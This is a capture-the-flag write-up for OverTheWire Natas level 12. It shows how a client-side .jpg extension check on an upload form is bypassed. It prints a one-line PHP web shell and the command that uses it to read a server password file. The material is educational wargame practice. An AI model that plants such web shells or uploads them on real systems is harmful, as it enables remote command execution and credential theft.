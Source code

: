 ```yaml
---
layout: post
title:  "Natas Level 11 → Level 12"
date:   2021-05-26 15:37:21
categories: ctf wargames web-security
tags: wargames ctf overthewire web-security
series: "OverTheWire: Natas"
excerpt: Extension tension
mathjax: false
---
```


## Level Goal
Excluding the URL and username, the Level Goal section is blank for the Natas ctf.


## Solution
The natas12 website allows us to select and upload an image, and view the page source. Since the source is now starting to get a bit longer, I'll highlight the pertinent line(s) below.

```html
<input type="hidden" name="filename" value="<? print genRandomString(); ?>.jpg" /> 
```

Here we see that whatever we upload will be assigned a random name and have the .jpg extension appended to it. The intention here is to secure the upload form by appending the jpg extension of anything uploaded. This should prevent a malicious user from uploading a shell script and executing it from the uploads directory since jpg is non-executable. Since this change is done on the client-side, it can be bypassed with ease.


```php
<? passthru($_GET["cmd"]); ?>
```

That's it. I'll refer to this script as shell.php. You can name it whatever you like.

Before we upload this script, we need to alter the client-side code to deal with the appending of .jpg to our upload.

Open the web developer tools for your browser and use the inspector to quickly locate the upload section of the code. You should see something similar to the following:

```html
<form enctype="multipart/form-data" action="index.php" method="POST">
<input type="hidden" name="MAX_FILE_SIZE" value="1000">
<input type="hidden" name="filename" value="upzknql2yq.jpg">
```

The last line is the one we're looking for. The name of the file, **upzknql2yq** will be different for you.  This name was generated by the genRandomString() function we saw in the first script. Change the extension from .jpg to .php using the developer tools. Do not refresh the page or use the browser navigation buttons, or you'll need to change the extension once again.

With the extension now changed, click on the browse button, select shell.php, and then click upload. 

You should see a message similar to the following:
```
The file upload/zidcnm44f9.php has been uploaded
```

Make certain that the uploaded file ends in .php. If not, navigate back and re-edit the page source using the developer tools. Once you have the confirmation that the file uploaded with the .php extension, copy the link to the file location. Do not click the link.

Paste the link into the browser and append the following to the URL:
```
?cmd=cat /etc/natas_webpass/natas13
```

This will display the password to the next level in the browser.